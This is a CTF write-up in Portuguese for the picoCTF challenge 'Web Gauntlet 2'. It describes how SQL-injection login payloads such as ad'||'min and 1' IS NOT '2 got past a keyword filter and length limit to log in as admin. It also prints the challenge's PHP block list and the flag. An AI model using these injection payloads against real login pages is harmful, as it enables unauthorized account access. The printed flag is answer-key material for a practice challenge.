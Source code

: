 # Gauntlet 2
###### Resolvido por @Menegaldo e @BrunoCuba 
> Este é um CTF sobre [Tipo de Vulnerabilidade 1, Tipo de Vulnerabilidade 2 e Tipo de Vulnerabilidade 3]  

## Sobre o Desafio  
This website looks familiar...  

**Objetivo:** Log in as admin Site:  

## 🔗 Links do Desafio  
- [Acesse o site](http://mercury.picoctf.net:21336/)  
- [Página de filtragem](http://mercury.picoctf.net:21336/filter.php)  

Boa sorte! 🔥  

## Solução  

Ao acessar o site com a 2 questão, percebi que ela seria quase igual a web gauntlet 2, por ter o mesmo esquema de uma página de Login e Senha.
![image](https://github.com/user-attachments/assets/286fe1ca-4336-46bd-80ef-d882e5392d3d)

e depois acessei o filter.php, que no primeiro exercício mostrava quais eram os filtros para não usar no comando da Query. No caso desse exercício é:
![image](https://github.com/user-attachments/assets/d59a122f-447c-4c72-a41b-3b0f023db98f)

Minhas primeiras tentativas eu procurei o ChatGpt e ele me deu algumas alternativas como:
LOGIN: admin' AND 1=1 AND (SELECT name FROM sqlite_master WHERE type='table') --  
SENHA: qualquer coisa


Porém essa tentativa já não foi favorável para mim, pois o site tem um filtro de tamanho de caracter também:
![image](https://github.com/user-attachments/assets/ae16e14f-c01e-477c-9b32-bec59c104f81)



Depois disso, pedi pro gpt me passar todos os comandos do SQLite:
SELECT
FROM
WHERE
AND
OR
NOT
INSERT INTO
UPDATE
DELETE
CREATE TABLE
DROP TABLE
ALTER TABLE
JOIN
UNION
GROUP BY
HAVING
ORDER BY
LIMIT
DISTINCT
LIKE
IN
BETWEEN
IS NULL
IS NOT NULL
EXISTS
CASE
=
<
=
<=
<>
!=
IS TRUE
IS FALSE
IS NOT TRUE
IS NOT FALSE
IS
char()
hex()
substr()
length()
count()
sum()
avg()
min()
max()
lower()
upper()
random()

Com todas essas opções comecei a tentar esses comandos, de alguma maneira para que o valor desse positivo e que nenhum filtro barrasse, mas nenhuma ideia que funcionasse. Com isso pedi ajuda ao gpt e ele falou pra eu tentar comparar 2 números diferentes com o IS NOT pra que o valor seja TRUE para que a lógica no SQLite me deixe acessar o site.

Minha primeira tentativa foi
LOGIN: 'qualquer coisa'
Senha: 1' IS NOT '2
![image](https://github.com/user-attachments/assets/3e517e79-1815-433c-b75d-a382d167db5b)
![image](https://github.com/user-attachments/assets/fdbf8787-3af3-4c71-ac97-5ee47694a88e)


E vi que também não adiantaria eu tentar entrar com outro usuário, com isso voltei ao WEB GAUNTLET 1 para ver como era o login de admin para burlar o filtro.
E eu tinha que jogar no campo de LOGIN: ad'||'min
e aí eu tentei novamente no campo SENHA: 1' IS NOT '2
E com isso eu consegui o login no site.
![image](https://github.com/user-attachments/assets/1f2b11fe-7eae-40e4-b8dd-779e79cd8a86)
![image](https://github.com/user-attachments/assets/5d4ccf40-2239-47dc-b20e-9391161df011)

Depois acessei o filter.php e ele me apresentou o seguinte:


<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}
?>

> Assim, obtemos a flag `picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}`  
